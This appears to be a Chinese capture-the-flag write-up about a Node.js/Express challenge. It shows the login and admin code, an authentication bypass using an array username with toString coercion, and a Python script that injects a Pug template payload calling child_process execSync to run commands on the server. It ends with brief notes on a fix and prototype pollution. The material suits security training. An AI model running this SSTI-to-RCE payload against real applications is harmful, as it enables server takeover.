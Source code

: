 ```javascript
      if(username.toString().substring(0,2)===admin.username.substring(0,2)&&password===admin.password.substring(1,15)){
        console.log(1)
        req.session.user={'username':username,'isadmin':'1'}
        console.log(2)
      }else {

        req.session.user={'username':username}

      }
      res.redirect('/')
    }
  }
  else {
    res.send('please enter usrname or password')
  }
})
app.get('/admin',IfLogin,(req,res)=>{
  if (req.session.user.isadmin==='1'){
    var hello='welcome '+req.session.user.username

    res.send (pugjs.render(hello))
  }
  res.send('you are not admin')
})
app.listen('80', () => {
  console.log(`Example app listening at http://localhost:80`)
})
```
判断条件：
`username.toString().substring(0,2)===admin.username.substring(0,2)&&password===admin.password.substring(1,15)`
数组配合toString绕过
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689392410314-f4e0ad2e-2aa1-4737-8344-0b8385044c49.png#averageHue=%23212327&clientId=u39f79e6e-e562-4&from=paste&height=63&id=ud7a14782&originHeight=63&originWidth=219&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2715&status=done&style=none&taskId=u300418b5-39b9-4043-beda-9706cda0c97&title=&width=219)
json提交
```javascript
data={
  "username":["admin"],
  "password":"\ude0d😂😍😒😘💕😁\ud83d"
}
```
`res.send (pugjs.render(hello))`，存在pug模板注入，hello包含username
最后payload：
```python
import requests
url="http://127.0.0.1"
s = requests.Session() #创建一个session
data={
    "username":["admin","#{global.process.mainModule.constructor._load('child_process').execSync('whoami').toString()}"],
    "password":"\ude0d😂😍😒😘💕😁\ud83d"
}
r=s.post(url=url+"/login",json=data)
print(r.text)
r=s.get(url=url+"/admin")
print(r.text)
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1689392963105-a1e6fb04-2f62-418f-903e-85b9f9a24f6d.png#averageHue=%23282c34&clientId=u39f79e6e-e562-4&from=paste&height=924&id=u19fdc33d&originHeight=924&originWidth=1559&originalType=binary&ratio=1&rotation=0&showTitle=false&size=109123&status=done&style=none&taskId=u9d252e99-47af-4170-8502-48b7dc82f3d&title=&width=1559)
fix
pug ssti黑名单
### pollution
原型链污染；readFileSync绕过